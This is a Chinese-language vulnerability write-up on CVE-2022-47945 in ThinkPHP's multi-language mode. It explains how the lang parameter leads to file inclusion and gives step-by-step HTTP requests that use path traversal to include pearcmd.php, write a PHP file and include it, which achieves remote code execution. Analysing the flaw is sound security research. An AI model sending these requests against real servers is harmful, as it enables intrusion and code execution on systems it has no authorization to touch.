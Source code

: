 ### 2. 【CVE-2022-47945】LoadLangPack.php::switchLangSet() 多语言模式包含

#### - 利用条件

1. 版本范围：ThinkPHP v6.0.1-v6.0.13，v5.0.x，v5.1.x
2. 直接RCE需要docker部署框架，并且需要php开启pear扩展（编译的时候有`--with-pear`配置）或者直接安装pear扩展的php并开启（php7.3以前默认安装），包含该文件即可。
3. 官方手册说明开启多语言模式：[thinkphp 6.x](https://www.kancloud.cn/manual/thinkphp6_0/1037637)、[thinkphp 5.x](https://static.kancloud.cn/manual/thinkphp5/118132)

#### - 漏洞原理和分析

多语言模式下对数据包`GET["lang"] 、HEADER["think-lang"] 、COOKIE["think_lang"]`这三个地方用detect方法检测语言类型，如果不是zh-cn类型则进行语言转换，转换过程中的`switchLangSet()`方法通过判断完需要包含的文件存在后直接进行包含。

详细分析参考https://tttang.com/archive/1865/#toc__2

#### -漏洞复现

仅复现该漏洞的话参考上一节的跳跳糖链接即可，但是深入利用的话是需要配合php pear扩展的小trick的。php在5.2.*版本默认开启

`register_argc_argv`，但是在后续php版本ini配置中默认是关闭的，这个特性会导致变量覆盖的漏洞。docker环境下php则是会开启这个配置，同时pear获取web参数的时候也遵循了类似这种情况的方式。php在7.3版本之前会自动安装pear扩展，并通过pearcmd.php来执行pear相关命令。pear命令中`config-create`可以在指定文件中写入自定义文件内容，格式：`pear config-create CONTENT FILE PATH `，可利用这个方式写shell。pearcmd.php的详细利用方式可参考[p牛的文件包含trick第六节](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp)。

那么在该漏洞中可以包含pearcmd.php文件，达到RCE的效果。

步骤一：利用lang参数包含pearcmd.php进行写文件（下面两种均可，这里不写shell了，写phpinfo）

```http
GET /index.php?+config-create+/&lang=../../../../../../../../../usr/local/lib/php/pearcmd&/+/<?=phpinfo();?>+/tmp/test.php HTTP/1.1
Host: x.x.x.x
```

```http
GET /index.php?lang=../../../../../../../../../../usr/local/pear/share/pear/pearcmd&+config-create+/<?=phpinfo();?>+/tmp/test.php HTTP/1.1
Host: x.x.x.x
```

步骤二：利用lang参数包含写入的文件验证成功与否

```http
GET /index.php?lang=../../../../../../../../tmp/test HTTP/1.1
Host: x.x.x.x
```

